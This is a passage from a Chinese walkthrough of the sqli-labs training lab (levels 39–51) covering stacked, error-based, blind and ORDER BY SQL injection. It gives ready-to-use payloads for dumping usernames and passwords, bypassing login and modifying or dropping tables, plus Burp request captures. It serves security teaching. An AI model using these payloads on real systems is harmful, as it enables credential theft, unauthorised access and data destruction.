
插入后查询验证：

```latex
?id=-1 union select 1,username,password from users where username='less39'--+
```

或：

```latex
?id=39
```

能看到新用户 → 堆叠成功。


**3）建表演示**

```latex
?id=1; create table less39_copy like users--+
```

```latex
?id=1; insert into less39_copy select * from users--+

?id=-1 union select 1,group_concat(username,0x3a,password),3 from less39_copy --+
```


**4）联合取数（可选）**

```latex
?id=-1 union select 1,database(),3--+
?id=-1 union select 1,group_concat(username,0x3a,password),3 from users--+
```

列数以本地 `order by` 为准。


**5）其它堆叠示例（仅限靶场）**

```latex
?id=1; update users set password='p39' where username='less39'--+
?id=1; delete from users where username='less39'--+
```

练习后可用首页 **Setup/resetDB** 恢复。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | 无引号，直接 `数字; 下一条SQL` |
| 注释 | `--+` 或 `#` 去掉原语句尾巴 |
| 与 38 | 同为堆叠，本关是整型写法 |
| 验证 | 优先 INSERT/建表，不单靠 sleep |

***

### Less-40：GET · 堆叠注入 · 单引号 + 括号 `')`

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-40/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型 + 堆叠注入 |
| 闭合方式 | `')` |
| 关键 API | `mysqli_multi_query()` |
| 典型 SQL 形态 | `SELECT * FROM users WHERE id=('$id') LIMIT 0,1` |
| 与 Less-38 差异 | 多一层括号，闭合从 `'` 变为 `')` |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
mysqli_multi_query($con, $sql);
```

注入时需先用 `')` 结束字符串和括号，再写 `;` 启动第二条语句，最后注释掉后面的 `LIMIT` 等。

拼出效果类似：

```sql
SELECT * FROM users WHERE id=('1'); insert into users ... -- ') LIMIT 0,1
```

#### 解题步骤

**1）确认闭合**

```latex
?id=1'
?id=1')
?id=1')--+
```

`1')--+` 正常 → 闭合为 `')`。


**2）堆叠插入**

```latex
?id=1'); insert into users(id,username,password) values(40,'less40','less40')--+
```

验证：

```latex
?id=-1') union select 1,username,password from users where username='less40'--+
```

或浏览能显示 `less40` 的查询方式。


**3）建表 / 拷贝数据**

```latex
?id=1'); create table less40_copy like users--+
```

```latex
?id=1'); insert into less40_copy select * from users--+
```


**4）联合取数**

```latex
?id=-1') union select 1,database(),3--+
```

```latex
?id=-1') union select 1,group_concat(username,0x3a,password),3 from users--+
```

列数本地实测。


**5）与 38、39 对照**

| 关卡 | 类型 | 堆叠 payload 开头形态 |
| --- | --- | --- |
| 38 | 字符 `'` | `1'; insert ...--+` |
| 39 | 整型 | `1; insert ...--+` |
| 40 | 字符 `')` | `1'); insert ...--+` |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | 必须 `')`，只写 `'` 不够 |
| 堆叠 | `');` 后接下一条完整 SQL |
| 注释 | `--+` / `#` 处理原语句剩余部分 |
| 防御 | 禁用 multi_query；参数化；最小权限 |

***

### Less-41：GET · 堆叠注入 · 整型 · 弱报错 / 盲注倾向

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-41/?id=1` |
| 注入方式 | GET |
| 类型 | **数字型** + 堆叠注入 |
| 关键 API | `mysqli_multi_query()` |
| 回显特点 | 常**不输出详细 SQL 报错**；联合/报错不一定直观，堆叠用「写库」验证更稳 |
| 典型 SQL 形态 | `SELECT * FROM users WHERE id=$id LIMIT 0,1` |
| 与 Less-39 关系 | 同为整型堆叠；41 更强调无报错、靠副作用确认 |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users WHERE id=$id LIMIT 0,1";
mysqli_multi_query($con, $sql);
```

无引号，可直接：

```sql
... WHERE id=1; insert into users ... -- 
```

页面可能只展示第一条 SELECT 的结果，后面语句是否执行要用**数据是否被改**来判断。

#### 解题步骤

**1）确认数字型**

```latex
?id=1
?id=1 and 1=1
?id=1 and 1=2
```

真假页有差异（有/无用户信息），且不必依赖 `'` 闭合。


**2）确认堆叠（插入验证）**

```latex
?id=1; insert into users(id,username,password) values(41,'less41','less41')--+
```

验证方式任选其一：

```latex
?id=-1 union select 1,username,password from users where username='less41'--+
```

```latex
?id=41
```

能看到 `less41` → 堆叠成功。\
（若联合无回显，可在库中直接查，或换一个已知会回显的查询方式。）


**3）建表演示**

```latex
?id=1; create table less41_copy like users--+
?id=1; insert into less41_copy select * from users--+
```


**4）联合取数（若有回显位）**

```latex
?id=-1 union select 1,database(),3--+
?id=-1 union select 1,group_concat(username,0x3a,password),3 from users--+
```

列数以本地为准。无回显时改用盲注或只练堆叠写操作。


**5）关于 sleep**

多语句时前端往往只处理第一个结果集，`sleep` 可能已执行但页面无感。**不要用“没延时”否定堆叠**；以 INSERT/UPDATE 是否生效为准。

**6）其它堆叠（仅限靶场）**

```latex
?id=1; update users set password='p41' where username='less41'--+
?id=1; delete from users where username='less41'--+
```

之后可用首页 **Setup/resetDB** 恢复。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 形态 | `?id=1; 第二条SQL--+` |
| 验证 | 写库副作用，不单靠报错或 sleep |
| 与 39 | 同为整型堆叠，41 回显更弱 |

***

### Less-42：POST · 登录框 · 密码点注入 · 报错 + 堆叠

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-42/`（登录页，参数名常见 `login_user`、`login_password`） |
| 注入方式 | **POST** |
| 注入点 | `login_password`**（密码）**；用户名常被 `mysqli_real_escape_string` 处理 |
| 类型 | 字符型（单引号） |
| 能力 | 有报错回显；支持 `mysqli_multi_query`\*\* 堆叠\*\* |
| 典型 SQL 形态 | `SELECT * FROM users WHERE username='$username' and password='$password'` |

#### 源码逻辑（理解用）

```latex
$username = mysqli_real_escape_string($con, $_POST["login_user"]);
$password = $_POST["login_password"];   // 未转义
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
mysqli_multi_query($con, $sql);
```

* 用户名被转义，难注入。
* **密码未转义**，可闭合 `'` 后联合、报错或 `;` 堆叠。
* 与「二次注入改密」不同：本关直接在**登录查询**的密码条件上动手。

#### 解题步骤

**1）定位注入点**

用户名填 `admin`，密码填：

```latex
1'
```

若出现 SQL 语法错误 → 密码进了 SQL。\
用户名填 `admin'` 往往无同样效果（被转义）。


**2）报错注入读库名**

密码框（或 Burp 改 `login_password`）：

```latex
1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

```latex
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#

1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)#
```

```latex
1' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1)#
```

用户名可随意（如 `admin` 或 `a`）。


**3）绕过登录（可选）**

```latex
login_user=admin
login_password=1' or '1'='1'#
```

或：

```latex
login_password=1' or 1=1#
```


**4）堆叠注入：插入用户**

```latex
login_user=admin
login_password=1'; insert into users(id,username,password) values(42,'post42','post42')#

1' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username='post42'),0x7e),1)#
```

登录提交后，用已知账号查询或报错/联合验证 `post42` 是否存在。


**5）堆叠：改密码 / 删用户（仅限靶场）**

```latex
1'; update users set password='hacked42' where username='admin'#
```

```latex
1'; delete from users where username='post42'#
```


**6）Burp 示例**

```http
POST http://192.168.3.3/sqli-labs/Less-42/login.php HTTP/1.1
Host: 192.168.3.3
Content-Length: 120
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36
Origin: http://192.168.3.3
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.3.3/sqli-labs/Less-42/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0kd5tefprpojvrv28cos2uvp56
Connection: close

login_user=admin&login_password=1'; insert into users(id,username,password) values(42,'post42','post42')#&mysubmit=Login
```

（具体参数名以页面表单为准，可能是 `mysubmit=Login`。）


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 注入点 | 密码字段，不是用户名 |
| 闭合 | 单引号 `'` |
| 读数据 | 报错 `updatexml` / `extractvalue` 很顺手 |
| 写操作 | `';` 堆叠 INSERT/UPDATE/DELETE |
| 与 38～41 | 堆叠思想相同，本关改为 **POST 登录** |

***

### Less-43：POST · 密码点注入 · 报错 + 堆叠 · 闭合 `')`

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-43/` |
| 注入方式 | POST（登录框） |
| 注入点 | `login_password`**（密码）**；用户名常被 `mysqli_real_escape_string` 转义 |
| 类型 | 字符型 |
| 闭合方式 | `')`（单引号 + 右括号） |
| 能力 | 有报错回显；支持 `mysqli_multi_query` 堆叠 |
| 典型 SQL 形态 | `... WHERE username=('$username') and password=('$password')` |
| 与 Less-42 差异 | 仅闭合从 `'` 变为 `')`，注入点与手法相同 |

#### 源码逻辑（理解用）

```latex
$username = mysqli_real_escape_string($con, $_POST["login_user"]);
$password = $_POST["login_password"];
$sql = "SELECT * FROM users WHERE username=('$username') and password=('$password')";
mysqli_multi_query($con, $sql);
```

密码未转义，但落在 `('$password')` 中，需用 `')` 正确闭合后再报错或堆叠。

#### 解题步骤

**1）确认注入点与闭合**

用户名：`admin`（或任意）\
密码依次试：

```latex
1'
1')
1')#
```

* `1'` 报错且 near 信息含括号 → 倾向 `')`
* `1') or 1=1#` 能登录成功，而 `1') and 1=1#` 失败 → 闭合为 `')`


**2）报错注入读数据**

密码框：

```latex
1') and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

```latex
1') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#

1') and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)#
```

```latex
1') and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1)#
```


**3）堆叠：插入用户**

```latex
1'); insert into users(id,username,password) values(43,'less43','less43')#

1') and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username='less43'),0x7e),1)#
```

之后用 `less43` / `less43` 尝试登录验证。


**4）堆叠：改密 / 删除（仅限靶场）**

```latex
1'); update users set password='stacked43' where username='admin'#
```

```latex
1'); delete from users where username='less43'#
```


**5）Burp 示例**

```http
POST http://192.168.3.3/sqli-labs/Less-43/login.php HTTP/1.1
Host: 192.168.3.3
Content-Length: 121
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36
Origin: http://192.168.3.3
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.3.3/sqli-labs/Less-43/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0kd5tefprpojvrv28cos2uvp56
Connection: close

login_user=admin&login_password=1'); insert into users(id,username,password) values(43,'less43','less43')#&mysubmit=Login
```

（参数名以实际表单为准。）


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 注入点 | 密码，不是用户名 |
| 闭合 | `')`，只写 `'` 不够 |
| 堆叠 | `');` 后接下一条 SQL |
| 与 42 | 同结构，多一层括号 |

***

### Less-44：POST · 密码点 · 单引号 · 盲注倾向 + 堆叠

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-44/` |
| 注入方式 | POST（登录框） |
| 注入点 | **密码**（用户名仍可能被转义） |
| 类型 | 字符型，闭合 `'` |
| 回显特点 | 往往**无详细 SQL 报错**；通过登录成功/失败做布尔判断，或时间盲注；仍支持堆叠 |
| 典型 SQL 形态 | `... WHERE username='$username' and password='$password'` |
| 与 Less-42 差异 | 闭合同为 `'`，但弱报错，读数据更依赖盲注；堆叠写操作依然有效 |

#### 源码逻辑（理解用）

与 42 类似：密码未充分转义并可注入；`mysqli_multi_query` 允许多语句。区别主要在应用层**不把 mysql_error 打到页面**，因此 `updatexml` 可能看不到 XPATH 报错，需换思路。

#### 解题步骤

**1）确认注入与闭合**

密码试：

```latex
1'
1' or 1=1#
1' and 1=2#
```

* `1' or 1=1#` 登录成功、`1' and 1=2#` 失败 → 单引号字符型布尔盲注成立。


**2）布尔盲注猜库名**

```latex
1' or 1=1 and length(database())=8#
1' or 1=1 and substr(database(),1,1)='s'#
1' or 1=1 and ascii(substr(database(),1,1))=115#
```

以登录成功/失败为真假。


**3）时间盲注备选**

```latex
1' or 1=1 and if(length(database())=8,sleep(5),0)#
1' or 1=1 and if(substr(database(),1,1)='s',sleep(5),0)#
```

注意：堆叠/多结果集时延时体验可能不稳定，布尔更优先。


**4）堆叠写库（不依赖报错回显）**

```latex
1' or 1=1; insert into users(id,username,password) values(44,'less44','less44')#
```

```latex
1' or 1=1; update users set password='p44' where username='admin'#

1' or 1=1; delete from users where username='less44'#
```

用新账号登录或再查库验证。堆叠是否成功看**数据变化**，不看错误页。


**5）若偶然有联合回显**

```latex
-1' union select 1,database(),3#

-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#

-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'#

-1' union select 1,group_concat(username,0x3a,password),3 from users#
```

多数 44 环境以盲注 + 堆叠为主，不必强求联合。


**6）Burp 示例**

```http
POST http://192.168.3.3/sqli-labs/Less-44/login.php HTTP/1.1
Host: 192.168.3.3
Content-Length: 127
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36
Origin: http://192.168.3.3
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.3.3/sqli-labs/Less-44/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0kd5tefprpojvrv28cos2uvp56
Connection: close

login_user=admin&login_password=1' or 1=1; insert into users(id,username,password) values(44,'less44','less44')#&mysubmit=Login
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `'` |
| 读数据 | 布尔/时间盲注（无报错时） |
| 写操作 | `';` 堆叠，用登录结果或库内容验证 |
| 与 42/43 | 42 有报错+`'`；43 有报错+`')`；44 弱回显+`'` |

***

### Less-45：POST · 密码点 · 闭合 `')` · 盲注倾向 + 堆叠

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-45/` |
| 注入方式 | POST（登录框） |
| 注入点 | **密码**（用户名常被转义） |
| 类型 | 字符型 |
| 闭合方式 | `')` |
| 回显特点 | 常无详细 SQL 报错；用登录成败做布尔判断，或堆叠写库验证 |
| 典型 SQL 形态 | `... username=('$username') and password=('$password')` |
| 与前后关 | 相对 44：闭合同类但改为 `')`；相对 43：闭合同为 `')`，但弱报错 |

#### 源码逻辑（理解用）

密码未充分过滤，落在带括号的引号中；`mysqli_multi_query` 仍可能可用。无报错时，`updatexml` 不一定能在页面上看到 XPATH 错误，优先布尔/堆叠。

#### 解题步骤

**1）确认闭合**

密码试：

```latex
1'
1')
1')#
1') or 1=1#
1') and 1=2#
```

* `1') or 1=1#` 登录成功、`1') and 1=2#` 失败 → 闭合为 `')`。


**2）布尔盲注**

```latex
1') or 1=1 and length(database())=8#
1') or 1=1 and substr(database(),1,1)='s'#
1') or 1=1 and ascii(substr(database(),1,1))=115#
```


**3）时间盲注备选**

```latex
1') or 1=1 and if(length(database())=8,sleep(5),0)#
1') or 1=1 and if(substr(database(),1,1)='s',sleep(5),0)#
```


**4）堆叠写操作（推荐验证方式）**

```latex
1'); insert into users(id,username,password) values(45,'less45','less45')#
```

```latex
1'); update users set password='p45' where username='admin'#
```

```latex
1'); delete from users where username='less45'#
```

用 `less45`/`less45` 登录或查库确认。


**5）Burp 示例**

```http
POST http://192.168.3.3/sqli-labs/Less-45/login.php HTTP/1.1
Host: 192.168.3.3
Content-Length: 121
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36
Origin: http://192.168.3.3
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.3.3/sqli-labs/Less-45/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0kd5tefprpojvrv28cos2uvp56
Connection: close

login_user=admin&login_password=1'); insert into users(id,username,password) values(45,'less45','less45')#&mysubmit=Login
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `')` |
| 读 | 布尔/时间盲注 |
| 写 | `');` 堆叠 |
| 对照 | 44 为 `'` 盲注；43 为 `')` 报错 |

***

### Less-46：GET · ORDER BY 子句注入 · 数字型 · 报错

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-46/?sort=1` |
| 注入方式 | GET |
| 注入参数 | `sort`（不是 `id`） |
| 类型 | **数字型 ORDER BY 注入** |
| 典型 SQL 形态 | `SELECT * FROM users ORDER BY $sort` |
| 限制 | `ORDER BY` 后**不能**直接 `UNION SELECT`（语法位置不对） |
| 主攻手法 | 报错注入（`updatexml` / `extractvalue` / `rand`+`floor`）；或时间/布尔 |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users ORDER BY $sort";
```

* `ORDER BY 1` / `2` / `3`：按结果集第 1/2/3 **列**排序（数字有特殊含义）。
* `ORDER BY '2'`：按常量字符串排序，与「第 2 列」不是一回事（字符型关会遇到）。
* 注入点在 `ORDER BY` 之后，联合查询不适用，改用表达式报错或条件延时。

#### 解题步骤

**1）确认注入点**

```latex
?sort=1
?sort=2
?sort=3
?sort=1 asc
?sort=1 desc
```

排序结果变化 → `sort` 进入 `ORDER BY`。


```latex
?sort=4
```

列不存在时可能报错或异常。


**2）确认数字型**

无需引号闭合；`?sort=1 and 1=1` 类语句可参与表达式（具体以报错/排序是否异常为准）。


**3）报错注入（推荐）**

```latex
?sort=updatexml(1,concat(0x7e,database(),0x7e),1)
```

或：

```latex
?sort=1 and updatexml(1,concat(0x7e,database(),0x7e),1)
```

```latex
?sort=extractvalue(1,concat(0x7e,database(),0x7e))
```


**4）取表、列、数据**

```latex
?sort=updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)
```

```latex
?sort=updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)
```

```latex
?sort=updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1)
```


`updatexml`/`extractvalue` 回显长度有限，可 `limit` 逐条：

```latex
?sort=updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1)
?sort=updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 1,1),0x7e),1)
```


**5）其它报错形式（可选）**

```latex
?sort=(select 1 from (select count(*),concat_ws(0x3a,(select database()),floor(rand()*2)) x from information_schema.tables group by x) a)
```


**6）时间盲注备选**

```latex
?sort=if(ascii(substr(database(),1,1))=115,sleep(5),1)
?sort=1 and if(length(database())=8,sleep(5),0)
```


**7）为何不能 UNION**

`ORDER BY` 子句位置不能接 `UNION SELECT ...`。应把 payload 写成**可出现在 ORDER BY 中的表达式**（函数调用、标量子查询等）。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 参数 | `sort`，落在 `ORDER BY` 后 |
| 类型 | 数字型，无引号 |
| 禁用 | 常规 `UNION` |
| 主用 | `updatexml` / `extractvalue` 报错；其次时间盲注 |
| 排序数字 | `ORDER BY 1` 表示第 1 列，不是字符串 `'1'` |

***

### Less-47：GET · ORDER BY 注入 · 字符型 · 报错

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-47/?sort=1` |
| 注入方式 | GET |
| 注入参数 | `sort` |
| 类型 | **字符型 ORDER BY 注入**（参数被引号包裹） |
| 典型 SQL 形态 | `SELECT * FROM users ORDER BY '$sort'` |
| 回显 | 有报错信息 |
| 与 Less-46 差异 | 46 为数字型 `ORDER BY $sort`；47 为 `ORDER BY '$sort'`，需闭合引号 |
| 主攻手法 | 闭合后使用 `updatexml` / `extractvalue` 等报错注入 |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users ORDER BY '$sort'";
```

* `ORDER BY '1'`、`ORDER BY '2'`：按**字符串常量**排序，不是「按第 N 列」排序，因此页面排序效果可能与 46 关不同。
* 注入时需先用 `'` 闭合，再插入表达式，最后注释尾巴。

#### 解题步骤

**1）确认参数与字符型**

```latex
?sort=1
?sort=1'
?sort=1'--+
```

`1'` 出现语法错误、`1'--+` 恢复 → 单引号字符型。


**2）确认在 ORDER BY 位置**

```latex
?sort=1' and '1'='1
```

行为符合拼接进 `ORDER BY '...'` 的预期即可；不要按 WHERE 型去强行 `UNION`。


**3）报错注入**

```latex
?sort=1' and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```

或：

```latex
?sort=1' and extractvalue(1,concat(0x7e,database(),0x7e))--+
```


**4）取表、列、数据**

```latex
?sort=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+
```

```latex
?sort=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)--+
```

```latex
?sort=1' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1)--+
```


回显过长时用 `limit` 分段：

```latex
?sort=1' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1)--+
```


**5）其它写法（可选）**

把整个排序表达式换成标量子查询（仍需注意引号闭合与注释）：

```latex
?sort=1' and (select 1 from (select count(*),concat_ws(0x3a,database(),floor(rand()*2)) x from information_schema.tables group by x) a)--+
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | 单引号 `'` |
| 位置 | `ORDER BY` 后，不宜 `UNION` |
| 主用 | 报错函数 |
| 与 46 | 多一层引号；排序数字语义变为字符串常量 |

***

### Less-48：GET · ORDER BY 注入 · 数字型 · 盲注（无报错）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-48/?sort=1` |
| 注入方式 | GET |
| 注入参数 | `sort` |
| 类型 | **数字型 ORDER BY 注入** |
| 典型 SQL 形态 | `SELECT * FROM users ORDER BY $sort` |
| 回显 | **无详细 SQL 报错** |
| 与 Less-46 差异 | SQL 位置同类（数字型 ORDER BY），但关闭报错，改用时间/布尔盲注 |
| 主攻手法 | `if` + `sleep` / `benchmark`；或根据排序结果差异做布尔判断 |

#### 源码逻辑（理解用）

与 46 类似，`$sort` 直接进入 `ORDER BY`，无引号。应用层不输出 `mysql_error`，`updatexml` 即使触发错误也可能看不到内容，因此以**延时**或**页面排序/内容是否变化**为准。

#### 解题步骤

**1）确认注入点**

```latex
?sort=1
?sort=2
?sort=1 asc
?sort=1 desc
```

排序变化说明参数生效。


**2）确认无报错**

```latex
?sort=updatexml(1,concat(0x7e,database()),1)
```

若页面无 XPATH 类错误信息，按盲注处理。


**3）时间盲注（推荐）**

```latex
?sort=if(length(database())=8,sleep(5),1)
```

```latex
?sort=if(ascii(substr(database(),1,1))=115,sleep(5),0)
```

```latex
?sort=1 and if(substr(database(),1,1)='s',sleep(5),0)
```

库名、表名、字段逐字符枚举即可。


**4）取表示例（时间）**

```latex
?sort=if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=101,sleep(5),0)
```


**5）取数据示例**

```latex
?sort=if(ascii(substr((select group_concat(username,0x3a,password) from users),1,1))=68,sleep(5),0)
```

配合脚本按位置递增更高效。


**6）布尔思路（可选）**

利用 `ORDER BY` 表达式真假导致排序不同，对比两页 HTML 差异（不如时间直观，可作补充）：

```latex
?sort=if(length(database())=8,id,username)
?sort=if(length(database())=9,id,username)
```

若 `=8` 与 `=9` 时行顺序不同，可作真假依据。


**7）benchmark 备选**

```latex
?sort=if(ascii(substr(database(),1,1))=115,benchmark(5000000,md5(1)),0)
```

在 `sleep` 被限制时使用。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 类型 | 数字型 `ORDER BY` |
| 读数据 | 时间盲注为主 |
| 与 46 | 同位置；46 可报错，48 靠延时/布尔 |
| 与 47 | 47 有引号+报错；48 无引号+盲注 |

***

### Less-49：GET · ORDER BY 注入 · 字符型 · 盲注（无报错）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-49/?sort=1` |
| 注入方式 | GET |
| 注入参数 | `sort` |
| 类型 | **字符型 ORDER BY 注入** |
| 典型 SQL 形态 | `SELECT * FROM users ORDER BY '$sort'` |
| 回显 | **无详细 SQL 报错** |
| 与 Less-47 差异 | 同为带引号的 ORDER BY；47 可报错，49 只能盲注 |
| 与 Less-48 差异 | 48 为数字型盲注；49 需先闭合 `'` |
| 主攻手法 | 时间盲注（`if` + `sleep`）；注意 ORDER BY 下 sleep 可能被多行重复执行 |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users ORDER BY '$sort'";
```

无 `mysql_error` 输出时，`updatexml` 即使出错也看不到内容。排序表达式会对结果集处理，`sleep` 可能按行数叠加，导致页面极慢或 500，构造时要控制延时条件。

#### 解题步骤

**1）确认字符型**

```latex
?sort=1
?sort=1'
?sort=1'--+
```

`1'` 异常、`1'--+` 恢复 → 单引号闭合。


**2）确认无报错可读**

```latex
?sort=1' and updatexml(1,concat(0x7e,database()),1)--+
```

无 XPATH 类回显则改用盲注。


**3）时间盲注**

```latex
?sort=1' and if(length(database())=8,sleep(2),0)--+
```

```latex
?sort=1' and if(ascii(substr(database(),1,1))=115,sleep(2),0)--+
```

说明：

* `sleep` 秒数不宜过大，避免多行累计超时。
* 也可写成 `ORDER BY` 可接受的表达式形式，例如：

```latex
?sort=1' and if(length(database())=8,sleep(2),1) and '1'='1
```


**4）枚举表与数据**

```latex
?sort=1' and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=101,sleep(2),0)--+
```

```latex
?sort=1' and if(ascii(substr((select group_concat(username,0x3a,password) from users),1,1))=68,sleep(2),0)--+
```

配合脚本按位置递增更高效。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | `'` + 注释 |
| 读数据 | 时间盲注为主 |
| 注意 | ORDER BY 下 sleep 可能×行数，控制延时 |
| 对照 | 47 报错字符型；48 盲注数字型；49 盲注字符型 |

***

### Less-50：GET · ORDER BY 注入 · 数字型 · 堆叠

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-50/?sort=1` |
| 注入方式 | GET |
| 注入参数 | `sort` |
| 类型 | **数字型 ORDER BY** + **堆叠注入** |
| 关键 API | `mysqli_multi_query()` |
| 典型 SQL 形态 | `SELECT * FROM users ORDER BY $sort` |
| 与 Less-46 差异 | 46 单语句；50 可多语句（`;` 后追加 SQL） |
| 主攻手法 | 堆叠写库验证；也可用报错/时间（同 46/48） |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users ORDER BY $sort";
mysqli_multi_query($con, $sql);
```

数字型无需引号，可直接：

```sql
ORDER BY 1; insert into users ...
```

页面通常只展示第一条 SELECT 的结果集，后面语句是否执行看**数据是否变化**。

#### 解题步骤

**1）确认数字型 ORDER BY**

```latex
?sort=1
?sort=2
?sort=1 desc
```

排序变化 → 参数在 `ORDER BY` 中。


**2）堆叠插入（推荐验证）**

```latex
?sort=1; insert into users(id,username,password) values(50,'less50','less50')--+
```

验证：

```latex
?sort=1 desc
```

若按 id 降序能看到较大 id 的新用户，或直接查库确认 `less50` 存在。


**3）建表 / 拷贝**

```latex
?sort=1; create table less50_copy like users--+
?sort=1; insert into less50_copy select * from users--+
```


**4）报错读数（若开启报错）**

与 46 相同，例如：

```latex
?sort=updatexml(1,concat(0x7e,database(),0x7e),1)

?sort=updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)

?sort=updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)

?sort=updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1)
```


**5）时间盲注备选**

```latex
?sort=if(length(database())=8,sleep(3),1)
```

有堆叠时更推荐写库验证，不必依赖延时。


**6）其它堆叠（仅限靶场）**

```latex
?sort=1; update users set password='p50' where username='less50'--+
?sort=1; delete from users where username='less50'--+
?sort=1; drop table if exists less50_copy--+
```

练习后可用首页 **Setup/resetDB** 恢复。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 形态 | `?sort=1; 第二条SQL--+` |
| 类型 | 数字型，无引号 |
| 验证 | INSERT 后看排序结果或库表 |
| 与 46 | 同 ORDER BY 数字型，本关多堆叠 |
| 与 38～41 | 堆叠思想相同，注入点在 `ORDER BY` |

***

### Less-51：GET · ORDER BY 注入 · 字符型 · 堆叠

